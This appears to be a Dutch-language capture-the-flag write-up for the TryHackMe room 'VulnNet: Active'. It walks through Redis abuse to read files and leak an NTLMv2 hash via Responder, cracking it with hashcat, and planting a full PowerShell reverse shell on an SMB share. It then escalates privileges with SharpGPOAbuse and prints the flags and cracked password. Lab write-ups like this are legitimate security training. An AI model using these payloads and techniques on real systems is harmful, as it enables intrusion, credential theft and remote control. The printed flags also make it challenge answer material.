

# VulnNet: Active

This document describes the elaboration of the 'VulnNet: Active' assignment

## Table of contents

-   [Zoektocht 2 flags](#zoektocht-2-flags)


## Zoektocht 2 flags

We zijn gestart met een simpele Nmap scan. Hieruit vonden we als eerst 'kpasswd5'. Dit hebben we opgezocht voor mogelijke exploits, maar we vonden niet direct iets.

```bash
$ nmap -sC -sV -sS <ip-address>
```

Dan hebben we een volledige port scan gedaan die alle mogelijke poorten afging en deze duurde een 20 tal minuten. Hieruit kwam een Redis server tevoorschijn op poort '6379/tcp'.

-   ```-p-``` optie gaat alle mogelijke poorten af

```bash
$ nmap -sC -sV -sS -T4 -p- <ip-address>
```


Dan hebben we opgezocht hoe Redis werkt en hebben we een Redis client geinstalleerd 'redis-tools'.

```bash
$ redis-cli -h <ip-address> -p 6379
```

We zijn direct binnengeraakt zonder wachtwoord. Dan hebben we opgezocht hoe we met Redis gegevens kunnen opvragen. Hierbij vonden we 2 databases '16, databases'. Dan hadden we gekeken welke users in Redis waren.

```bash
ip-address> CONFIG GET databases
ip-address> CLIENT LIST
```

Dan hebben we de Redis databases afgegaan en de keys bekeken. Maar hier kwam niets uit.

```bash
ip-address> SELECT 1
ip-address> SELECT 2
```

Toen kregen we het idee om de configuratie van de Redis server te bekijken. Hierin vonden we een interessante string wat een Windows pad is waar een user 'enterprise-security' in staat (C:\\Users\enterprise-security\\Downloads\\Redis-x64-2.8.2402)

```bash
ip-address> CONFIG GET *
```


Dan hebben we zitten opzoeken over Windows systemen wat mogelijk is om binnen te geraken met de gevonden gebruikersnaam. Hier keken we vooral naar RPC en Microsoft DNS. Het viel ons op dat er DNS domain server draaide op het target.

Dan hebben we de DNS server ondervraagt met dig en nslookup, maar hier konden we niets verder uithalen, enkel dat dit een 'mDNS' type is.



Toen kwam het idee dat we via Redis lokale files kunnen raadplegen en via eval kunnen we met het 'dofile()' commando een Lua script opstarten, maar het interessante hier aan is dat het ook een error boodschap geeft met een deel van de content van de file. We konden ook zien dat de files effectief bestaan, want als je een ander random pad neemt dan zegt hij dat de files niet bestaan.

```bash
ip-address> EVAL "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
ip-address> EVAL "dofile('C:\\\\Users\\\\administrator\\\\Desktop\\\\system.txt')" 0

# Geeft devolgende foutmelding
---
root@ip-10-10-17-203:~# redis-cli -h 10.10.134.166
10.10.134.166:6379> EVAL "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
(error) ERR Error running script (call to f_ce5d85ea1418770097e56c1b605053114cc3ff2e): @user_script:1: C:\Users\enterprise-security\Desktop\user.txt:1: malformed number near '3eb176aee96432d5b100bc93580b291e' 
10.10.134.166:6379> EVAL "dofile('C:\\\\Users\\\\administrator\\\\Desktop\\\\system.txt')" 0
(error) ERR Error running script (call to f_cffbc07e4090598aef2945c12d126f87f7aed4da): @user_script:1: cannot open C:\Users\administrator\Desktop\system.txt: Permission denied
---
```

**UPDATE: Achteraf gezien hadden we hier de flag bijna gevonden! (THM{3eb176aee96432d5b100bc93580b291e})**

Dan hebben we mDNS onderzocht en dit bleek een zero-configuration service te zijn. Bonjour is het type wat op Apple systemen draait. We kwamen uiteindelijk met hetvolgende artikel terrecht wat ons deed begrijpen hoe men mDNS kan misbruiken door een request te sturen naar de aanvaller zijn pc: [Responder](https://support.alertlogic.com/hc/en-us/articles/360004707492-Penetration-Testing-Tool-Responder#:~:text=The%20Responder%20penetration%20testing%20tool,traffic%20to%20the%20malicious%20user). Toen hebben we zitten opzoeken voor zo een Responder tool en kwamen we bij hetvolgende uit [GitHub Responder](https://github.com/lgandx/Responder) en gingen deze gebruiken. Blijkbaar dient deze tool te draaien om requests te onderscheppen.

```bash
$ responder -I ens5
```

Nadat deze tool draaiende was, moeten we op 1 of andere manier een request kunnen doen naar onze machine zelf. Ons enige entrypoint op de target machine is de Redis Server. Dan hebben we opgezocht hoe dit mogelijks zou kunnen. Hierbij maakte we opnieuw gebruik van het eval en dofile commando, maar deze keer probeerde we een file te openen die remote staat (op de aanvaller zijn pc).

```bash
# Het werkte pas als we effectief een file meegaven. Bij het eerste voorbeeld zegt hij dat hij niks vind, maar als je een file in het pad zet, dan geeft hij een Permission denied terug
ip-address> eval "dofile('//10.11.69.106')" 0
ip-address> eval "dofile('//10.11.69.106/text')" 0

# Geeft devolgende melding terug:
(error) ERR Error running script (call to f_fb3da500bd2e24df962ba79284d079d3294cfe33): @user_script:1: cannot open //10.10.17.203/: No such file or directory 
10.10.134.166:6379> eval "dofile('//10.10.17.203/password')" 0
(error) ERR Error running script (call to f_a137965cdf23f5f71af30bf29060c7bd26ccf2a7): @user_script:1: cannot open //10.10.17.203/password: Permission denied 
```

Na even wachten kregen we op de Responder hetvolgende te zien:

```bash
[SMB] NTLMv2-SSP Client   : ::ffff:10.10.134.166
[SMB] NTLMv2-SSP Username : VULNNET\enterprise-security
[SMB] NTLMv2-SSP Hash     : enterprise-security::VULNNET:266d24e2c12cb40e:976DCC0F28BB1BC3380CAAE764C6DC82:0101000000000000001881FF4D7FD9019DBC889AC06A95DD0000000002000800570044003300380001001E00570049004E002D005900570036004E00480050004800570055005600380004003400570049004E002D005900570036004E0048005000480057005500560038002E0057004400330038002E004C004F00430041004C000300140057004400330038002E004C004F00430041004C000500140057004400330038002E004C004F00430041004C0007000800001881FF4D7FD9010600040002000000080030003000000000000000000000000030000006349A66F5042E0B48564BA1126ED3A8A42137FA9C6A96FC533658E18E64BE5B0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310037002E003200300033000000000000000000
```

Hieruit kregen we een lijst hashes te zien waarin we precies een MD5 in het begin zien '976DCC0F28BB1BC3380CAAE764C6DC82'. Toen gingen we dit met hashcat proberen te ontcijferen. Maar hier kwam niks uit. Toen zochten we op iets met NTLM en dit kwam uit op een NetNTLMv2 hash. Hashcat ondersteund dit type ook en hierbij gingen we ook aan de slag. [Hashcat documentatie](https://hashcat.net/wiki/doku.php?id=hashcat)

```bash
# Save hash to file
$ nano hash.txt

# -m 0 = MD5
hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt --force --show
# -m 5600 = NetNTLMv2
hashcat -a 0 -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force --show

# Hier kwam hetvolgende uit
---
sand_0873959498
---
```

Op dit punt bezitten we de username 'enterprise-security' en password 'sand_0873959498'. Uit onze voorgaande Nmap was te zien dat de SMB poorten 139 en 445 open staan. Hierbij gaan we via SMB proberen in te loggen en te kijken welke shares er open staan.

```bash
root@ip-10-10-17-203:~# smbclient -L //10.10.134.166 -U enterprise-security --password=sand_0873959498
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\enterprise-security's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Enterprise-Share Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
Connection to 10.10.134.166 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
```

Dan probeerde op de shares binnen te geraken, maar we geraakte enkel via 'Enterprise-Share' binnen

```bash
root@ip-10-10-221-22:~# smbclient //10.10.56.58/C$ -U enterprise-security%sand_0873959498
WARNING: The "syslog" option is deprecated
tree connect failed: NT_STATUS_ACCESS_DENIED
root@ip-10-10-221-22:~# smbclient //10.10.56.58/ADMIN$ -U enterprise-security%sand_0873959498
WARNING: The "syslog" option is deprecated
tree connect failed: NT_STATUS_ACCESS_DENIED
root@ip-10-10-221-22:~# smbclient //10.10.56.58/Enterprise-Share -U enterprise-security%sand_0873959498
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \>
```

Hier kunnen we de commando's 'ls, cd, get, put, rm' gebruiken

```bash
smb: \> ls

  .                                   D        0  Tue Feb 23 22:45:41 2021
  ..                                  D        0  Tue Feb 23 22:45:41 2021
  PurgeIrrelevantData_1826.ps1        A       69  Wed Feb 24 00:33:18 2021

		9466623 blocks of size 4096. 4908729 blocks available
```

Na lang zoeken hebben we opgezocht hoe deze opgave verder moest en kwamen we uit op een 'MeterPreter' setup. Hier gebruiken we Metasploit modules om een remote shell sessie op te starten.

Dan veranderen we de file 'PurgeIrrelevantData_1826.ps1' naar de content hieronder. Deze content maakt het mogelijk om via metasploit een remote shell op te starten:

```bash
$ nano PurgeIrrelevantData_1826.ps1
```

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.221.22',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Vervolgens zetten we de file terug op de SMB share

```bash
$ smbclient //10.10.56.58/Enterprise-Share -U enterprise-security%sand_0873959498
smb: \> put PurgeIrrelevantData_1826.ps1
```

Dan starten we Metasploit op en gebruiken we devolgende commando's om te verbinden met de machine en een shell op te starten

```bash
$ msfconsole

---
use exploit/multi/handler
set lhost ens5
set lport 4444
set payload windows/x64/powershell_reverse_tcp
run
---
```

Als laatste stap browsen we naar de locatie van 'user.txt' en kijken we wat zijn inhoud is en de inhoud is 'THM{3eb176aee96432d5b100bc93580b291e}'.

User flag: 'THM{3eb176aee96432d5b100bc93580b291e}'


Om de system flag te vinden hebben zijn we begonnen op alle mogelijke manieren zoals hierboven vermeld om toegang te krijgen tot de Administrator zijn Desktop. Na lang zoeken hebben we opgezocht wat de jusite methode was en hebben we gebruik gemaakt van 'SharpGPOAbuse.exe'.

```bash
# Download SharGPOAbuse
$ wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe

# Verbind met de Enterprise-Security share
$ smbclient //10.10.15.192/C$ -U enterprise-security%sand_0873959498

# Zet 'SharpGPOAbuse.exe' op de share
smb: \> put SharpGPOAbuse.exe

# Op onze remote shell gaan we naar het pad 'C:\Enterprise-Security en voeren we het volgende commando uit
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "PrivEsc" --Author vulnnet\Administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"

# Dan checken we of we de Administrator rechten zijn toegekent
net user enterprise-security

# Uiteindelijk loggen we in op de C share
smbclient //10.10.15.192/C$ -U enterprise-security%sand_0873959498

# Ga naar het pad 'C:\Users\Administrator\Desktop
get system.txt

# Op onze machine gaan we naar de home folder en doen we een cat van de file en hier was de flag
$ cat ~/system.txt
```

System flag: 'THM{d540c0645975900e5bb9167aa431fc9b}'